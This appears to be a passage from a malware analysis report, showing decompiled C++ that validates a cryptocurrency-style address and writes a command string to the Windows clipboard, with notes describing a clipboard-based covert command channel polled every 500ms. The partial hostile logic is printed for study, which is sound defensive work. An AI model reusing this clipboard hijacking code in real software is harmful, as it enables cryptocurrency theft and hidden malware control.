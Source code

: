 ```cpp
        char c = address[i];
        // Disallow '0', 'O', 'I'
        if (c == '0' || c == 'O' || c == 'I') {
            return false;
        }
        // Must be alphanumeric
        if (!isalpha(c) && !isdigit(c)) {
            return false;
        }
    }

    // Get corresponding command string
    const char* cmd_str = get_command_string(prefix);
    
    // Store in clipboard
    HGLOBAL hMem = GlobalAlloc(GMEM_MOVEABLE, strlen(cmd_str) + 1);
    char* data = (char*)GlobalLock(hMem);
    strcpy(data, cmd_str);
    GlobalUnlock(hMem);
    
    if (OpenClipboard(NULL)) {
        EmptyClipboard();
        SetClipboardData(CF_TEXT, hMem);
        CloseClipboard();
    }

    return true;
}
```

**Malware Implications**:
- Part of command and control infrastructure
- Uses clipboard as a covert channel for command storage
- Implements cryptocurrency address validation
- Different prefixes likely correspond to different cryptocurrency types or commands
- Uses predefined command strings that are likely encrypted/encoded

**Return Values**:
- Returns `true` (1) if validation passes and clipboard operation succeeds
- Returns `false` (0) if validation fails or clipboard operation fails

### 3. VIBE::monitor_clipboard_command_channel

**Purpose**: Implements a covert command and control channel by continuously monitoring the system clipboard for potential command keys.

**Location**: 0x401490

**Functionality**:
1. Runs in an infinite loop monitoring the clipboard
2. Retrieves clipboard content every 500ms
3. Validates retrieved content as potential command keys
4. Processes valid commands through the crypto address validation system
